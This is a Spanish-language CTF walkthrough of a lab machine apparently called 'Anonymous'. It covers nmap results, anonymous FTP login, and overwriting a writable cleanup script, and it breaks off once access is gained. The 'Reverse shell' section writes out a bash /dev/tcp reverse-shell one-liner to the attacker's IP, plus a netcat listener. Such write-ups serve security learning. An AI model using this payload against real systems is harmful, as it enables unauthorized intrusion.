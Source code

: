 ### nmap
```python
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.157.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2024-01-20T21:35:30+00:00
|_clock-skew: mean: -28s, deviation: 0s, median: -28s
| smb2-time: 
|   date: 2024-01-20T21:35:30
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
### Ports: 21/ftp - 22/ssh - 139/smb - 445/smb 

### Enumeracion del puerto 21/ftp
```python
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.157.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
```
este puerto tiene una configuracion de credenciales por defecto con el usuario anonymous y tambien podemos ver que tenemos permisos writable (escritura)

### ftp 
nos conectamos al puerto ftp con las credenciales de anonymous(default) en este caso tenemos una carpeta llamada scripts la cual contiene 3 archivos, usando mget * podemos descargar todos los archivos para poder verlos mejor en local
![[Pasted image 20240120174450.png]]

el archivo nmap.txt coresponde a nuestro archivo de escaneo y tenemos los 3 archivos que hemos conseguido en la maquina
![[Pasted image 20240120174740.png]]

el archivo to_do.txt es un mensaje que nos dicen que han desabilitado el login de anonymous y que esto no es una practica segura. el archivo clean.sh es un script en bash que realiza una limpieza en el directorio /tmp. debido a que tenemos permisos de escritura podriamos editar este script para optener una reverse shell
![[Pasted image 20240120175113.png]]

el archivo removed.files.log solo es una captura de la ejecusion del script sin embargo dice que no se encontro nungun archivo para eliminar
![[Pasted image 20240120175636.png]]

### Reverse shell
lo primero que vamos hacer sera editar el script.sh para agregar una reverse shell aregando el siguiente comando `bash -c "bash -i >& /dev/tcp/10.9.157.7/9001 0>&1"` una ves hecho esto vamos al servicio ftp y vamos a subir el nuevo script para ello nos posicionamos en la misma ruta donde esta el script anterior y solo hacemos un `put clean.sh` ahora ya tenemos el nuevo script en el sistema sono nos falta ponernos a la escucha con `nc lvnp 9001` este es el puerto que hemos especificado en la reverse shell y ya solo nos queda esperar un par de minutos para conseguir una coneccion
![[Pasted image 20240120181957.png]]

### intrusión
hemos ganado intrusión como el usuario  